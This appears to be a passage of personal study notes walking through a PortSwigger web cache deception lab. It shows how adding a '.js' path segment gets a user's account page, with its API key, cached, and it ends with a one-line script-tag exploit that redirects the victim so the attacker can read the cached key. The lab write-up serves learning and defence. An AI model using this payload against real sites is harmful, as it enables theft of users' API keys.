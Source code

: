 Caches may have rules based on specific static extensions. Try a range of extensions, including .css, .ico, and .exe.

You can then craft a URL that returns a dynamic response that is stored in the cache. Note that this attack is limited to the specific endpoint that you tested, as the origin server often has different abstraction rules for different endpoints. 

> Note:
>
> Burp Scanner automatically detects web cache deception vulnerabilities that are caused by path mapping discrepancies during audits. You can also use the Web Cache Deception Scanner BApp to detect misconfigured web caches. 

### APPRENTICE Lab: Exploiting path mapping for web cache deception
We have an enpdoint:
```
https://0af500760347bbb78088b27c006200de.web-security-academy.net/my-account
```
It returns HTML and the HTML contains user's API key.

We try to add some random additional url segment:
```
https://0af500760347bbb78088b27c006200de.web-security-academy.net/my-account/fdsafsdf
```
And we see the same response with the API key. It indicates that the original backend server does not care about the rest of the url path as soon as the beginning of url path matches the resource.

Now we need to figure out caching rules for a caching server. We try to add `.js` in hope if the caching server caches everything based on the file extension rules:
```
https://0af500760347bbb78088b27c006200de.web-security-academy.net/my-account/hobav.js
```
And we get back the same html with API key but this time the html is cached, we can see that by the: 
```
X-Cache: miss
```
header, which means that the response has been cached.
The next request will return:
```
Cache-Control: max-age=30
Age: 1
X-Cache: hit
```
which indicates that the response is cached for 30 seconds and after it it'll refetch the resource (i.e. clear the cache). `Age: 1` means 1 second passed from the time when it was cached. And `x-cache: hit` means the response was taken from the cache.

So we can craft the exploit for the victim and when victim clicks on it, the html page with their API key is stored into the cache and later we can revisit that url and get the API key of the victim.

Exploit:
```bash
<script>document.location="https://labid.web-security-academy.net/my-account/wcd.js"</script>
```
